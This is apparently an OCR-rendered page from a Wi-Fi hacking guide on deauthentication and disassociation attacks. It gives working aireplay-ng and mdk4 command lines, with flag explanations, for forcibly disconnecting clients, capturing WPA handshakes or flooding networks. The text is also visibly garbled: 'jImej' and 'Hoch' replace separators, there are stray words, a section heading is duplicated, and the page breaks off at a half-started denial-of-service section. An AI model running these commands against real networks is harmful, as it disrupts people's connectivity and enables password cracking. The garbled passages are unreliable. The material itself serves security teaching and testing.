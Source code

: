 ### Deauthentication Packets

**Description from** [**here**:](https://null-byte.wonderhowto.com/how-to/use-mdk3-for-advanced-wi-fi-jamming-0185832/)**.**

**Deauthentication** attacks, a prevalent method in Wi-Fi hacking, involve forging "management" frames to **forcefully disconnect devices from a network**. These unencrypted packets deceive clients into believing they are from the legitimate network, enabling attackers to collect WPA handshakes for cracking purposes or to persistently disrupt network connections. This tactic, alarming in its simplicity, is widely used and has significant implications for network security.

**Deauthentication using Aireplay-ng**
```
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```
* \-0 jImej Deauthentication
* 1 Hoch number of deauths to send (you can send multiple if you wish); 0 means send them continuously
* \-a 00:14:6C:7E:40:80 jImej MAC address of the access point
* \-c 00:0F:B5:34:30:30 jImej MAC address of the client to deauthenticate; if this is omitted then broadcast deauthentication is sent (not always work)
* ath0 jImej interface name

### Disassociation Packets

**Disassociation packets**, similar to deauthentication packets, are a type of management frame used in Wi-Fi networks. These packets serve to sever the connection between a device (such as a laptop or smartphone) and an access point (AP). The primary distinction between disassociation and deauthentication lies in their usage scenarios. While an AP emits **deauthentication packets to remove rogue devices explicitly from the network, disassociation packets are typically sent when the AP is undergoing a shutdown**, restart, or relocating, thereby necessitating the disconnection of all connected nodes.

**This attack can be performed by mdk4(mode "d"):**
```bash
# -c <channel>
# -b victim_client_mac.txt contains the MAC address of the device to eliminate
# -e WifiName is the name of the wifi
# -B BSSID is the BSSID of the AP
# Notice that these and other parameters aare optional, you could give onli the ESSID and md4k will automatically search for it, wait for finding clients and deauthenticate them
mdk4 wlan0mon d -c 5 -b victim_client_mac.txt -E WifiName -B EF:60:69:D7:69:2F
```
### **DOS attacks by mdk4**

**In** [**here**](https://en.kali.tools/?p=864)**.**

**ATTACK MODE b: Beacon Flooding**

**Qap** **DOS** **attacks** **by** **mdk4**

**In** [**here**](https://en.kali.tools/?p=864)**.**

**ATTACK MODE b: Beacon Flooding**

